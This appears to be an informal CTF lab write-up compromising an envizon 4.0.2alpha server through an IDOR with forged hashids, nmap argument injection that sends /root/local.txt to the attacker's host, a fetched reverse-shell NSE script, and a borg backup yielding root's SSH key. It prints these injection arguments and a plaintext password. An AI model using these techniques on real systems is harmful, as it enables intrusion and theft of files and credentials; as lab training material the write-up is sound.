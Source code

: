 The room says we are using a framework software called `envizon` and its using version `4.0.2alpha` 

Started with a nmap scan
```
22 OpenSSH 7.6p1
3000 unknown HTTP server
```
When going to the website we need to use https to connect to the site and we get a login page so going to run a gobuster scan
```
/images
/admin
/reports
/issues
/groups
/clients
/notes
/404
```
seen a interesting folder called `notes` if we go to `/notes/1` we get a IDOR we can read the note it says they added `hashids` with a length of `30` and there is another note of id `380` but we cant view this note so going back to the other note we can see a edit button and gives us a link with what looks like names letters and then redirects us to the login its the `hashid` for note one so now we need to make a `hashid` for note `380` so now we need to make a `hashid` and a secret name of `Note` now if we take this id we can view the note we just need to take the `/edit` off and now we got the password for envizon `rE8Z*qyM!DTKNP8fGu4T3tW*aurBQwLF` now we can access the dashboard and we can see some THM boxs seeing how we can run scans maybe we can get command injection with nmap if we set a socat to receive the file and set the ip to scan as are host 
`-p 8080 --script http-get --script-args http-put,url=/,http-put.file=/root/local.txt` and now we have the local flag so now we need to get a reverse shell we can use a nse script you can find one of github we can use the same command but change it to fetch the script now the script is on  the machine we need to exacute it `-p 8000 --script /tmp/reverse_shell/10.13.8.255/8000/reverse_shell.nse` we need to use port `8080` to get the reverse shell we also need to start a listener on port `8000` as a fake port now we got a reverse shell as root but from this shell we need to use python3 to make a another connection to us on another port and now we can stabilize are shell and everything going with the hint from the room we might be looking for a backup folder and there is one `/var/backup` and looking at the README its a backup using `borgmatic` so looking for config files for a password and now found it in `/etc/borgmatic/config.yaml` so now we can use this to list backups `borg list /var/backup` and put the password in and now we have a `.ssh` and now we have the private key of `root` and we can copy it to are host and now we have can SSH into the real root account